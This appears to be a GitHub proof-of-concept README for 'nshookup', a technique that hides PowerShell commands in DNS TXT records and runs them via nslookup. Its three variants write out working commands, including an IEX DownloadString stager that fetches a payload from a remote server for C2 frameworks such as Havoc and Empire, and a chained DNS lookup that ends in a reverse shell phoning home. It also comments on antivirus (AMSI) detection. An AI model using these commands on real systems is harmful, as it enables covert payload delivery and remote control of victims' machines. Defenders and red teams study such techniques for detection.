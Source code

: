 ### Variant 0.1
Commands are stored as TXT entries on a DNS server and requested via nslookup (a.k.a "nshookup").<br>
Client executing:.<br>
`powershell (nslookup -q=txt domain.com)[5]`<br>
DNS Server entry:<br>
`ping google.com`<br>
*EXPLANATION: nslookup.exe calls the TXT entry through DNS as subprocess from powershell. This way the stored commands get transmitted over DNS and executed in the context of the current (powershell) process. The number in the brackets stands for the index (five being the first possible one) of the command. It is also possible to use "[-1]" should there be only a single command available as TXT entry.*<br>
The outcome is:<br>
`powershell ping google.com` is being executed in the current session on the clients system

![GRAPHIC_1](https://github.com/Dood3/PoCs/assets/93183445/ed4ab94c-44fa-4cde-924b-10f26ebbc169)


### Variant 0.2
-> Commands are stored as TXT entries on a DNS server to host a payload/stager for a  reverse connection to a C2 server (Havoc, Empire, etc.).<br>
Client executing:<br>
`powershell (nslookup -q=txt domain.com)[5]`<br>
DNS Server entry:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br>
*EXPLANATION: Again, the TXT enty is interpreted as legitimate command through parent & child process being powershell and a DNS request respectively.
The file hosting the payload is not bound to any file formats. A simple file without suffix will work. 
This request will most likely trigger AV (AMSI). If "IEX" doesn't get caught, the delivered payload itself will.*<br>

 ![GRAPHIC_2](https://github.com/Dood3/PoCs/assets/93183445/b9052342-258e-4e92-8559-abdec97e44b8)


### Variant 0.3
-> Commands are stored as TXT entries on a domain1.com to host another nslookup command requesting entries from domain2.com.<br>
Client executing:<br>
`powershell (nslookup -q=txt domain1.com)[5]`<br>
DNS Server entry (the index may vary):<br>
`powershell (nslookup -q=txt domain2.com)[5]`<br>
*EXPLANATION: The commands can be chained together with a combination of dns servers. The client requests the first domain, which in return requests the actual commands.on the second server.*<br>

This actual command, being a malicious payload, will most likely trigger AV (AMSI). .<br>

1. powershell (nslookup -q=txt bad-domain.com)[5].<br>
2. powershell (nslookup -q=txt bad-domain_2.com)[5].<br>
3. Command gets delivered to Client (over dns).<br>
4. Reverse shell phoning home.<br>

  ![GRAPHIC_3](https://github.com/Dood3/PoCs/assets/93183445/3243575e-8f56-478b-bf27-f3a1d4788557)

